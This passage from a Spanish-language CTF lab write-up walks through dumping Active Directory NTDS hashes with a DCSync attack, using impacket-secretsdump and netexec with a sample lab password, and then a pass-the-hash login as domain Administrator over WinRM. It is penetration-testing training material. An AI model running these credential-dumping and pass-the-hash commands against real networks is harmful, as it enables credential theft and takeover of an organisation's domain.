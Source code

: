 Usuario agregado con privilegios.

![userpriv.png](/assets/images/thl-writeup-chimichurri/userpriv.png)

Podremos conectarnos como el usuario que hemos agregado, con evilwin-rm pero no podríamos ver las flag debido a que debemos ser usuarios administradores del dominio, para eso Vamos a realizar un dumping de los hashes de los usuarios con netexec o con secrests-dump mediante NTDS (NTDS, o NT Directory Services, es el archivo de base de datos de Microsoft Active Directory) empleando un Dcsync attack. 

```bash
#secretsdump, Nos va a solicitar la contrasenia del usuario la colocamos y listo.
impacket-secretsdump chimichurri.thl/ewor01@192.168.179.144

#Netexec 
nxc smb 192.168.179.144 -u 'ewor01' -p 'pass123!' --ntds
```

![secrets-dump.png](/assets/images/thl-writeup-chimichurri/secrets-dump.png)

![ntds.png](/assets/images/thl-writeup-chimichurri/ntds.png)

El hash que nos interesa es el del usuario administrador, no necesitamos conocer su contraseña ya que realizaremos una técnica llamada pass the hash para conectarnos a la maquina mediante evilwin-rm. 

Primero comprobamos el hash del usuario Administrador.

```bash
nxc winrm 192.168.179.144 -u 'Administrador' -H 'hash'
```

![domainAdmin.png](/assets/images/thl-writeup-chimichurri/domainAdmin.png)
